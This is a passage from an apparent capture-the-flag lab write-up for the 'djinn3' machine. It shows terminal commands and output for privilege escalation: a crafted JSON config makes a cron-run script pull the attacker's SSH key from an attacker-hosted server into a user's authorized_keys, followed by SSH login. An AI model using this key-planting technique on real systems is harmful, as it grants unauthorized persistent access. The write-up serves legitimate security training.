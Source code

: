 Create malicious JSON file.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ vim 17-11-2023.config.json

# The JSON file needs to have the "URL" and "Output" values to match what the Python file is looking for.
{
"URL" : "http://192.168.45.217:8000/authorized_keys",
"Output" : "/home/saint/.ssh/authorized_keys"
}
```

Transfer the payload to the target.

```bash
www-data@djinn3:/tmp$ wget http://192.168.45.217:8000/17-11-2023.config.json
wget http://192.168.45.217:8000/17-11-2023.config.json
--2023-11-18 09:45:01--  http://192.168.45.217:8000/17-11-2023.config.json
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 104 [application/json]
Saving to: ‘17-11-2023.config.json’

17-11-2023.config.j 100%[===================>]     104  --.-KB/s    in 0s

2023-11-18 09:45:02 (19.3 MB/s) - ‘17-11-2023.config.json’ saved [104/104]

```

Now run the Python simple server in the same directory that _authorized_keys_ is located and the cron job download to the target.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3/.ssh]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.158.102 - - [17/Nov/2023 23:17:23] "GET /authorized_keys HTTP/1.1" 200 -



```

Now we can SSH to the target as Saint.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3/.ssh]
└─$ ssh saint@192.168.158.102
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 18 10:03:08 IST 2023

  System load:  0.0               Processes:           156
  Usage of /:   35.7% of 9.78GB   Users logged in:     0
  Memory usage: 18%               IP address for eth0: 192.168.158.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

134 packages can be updated.
```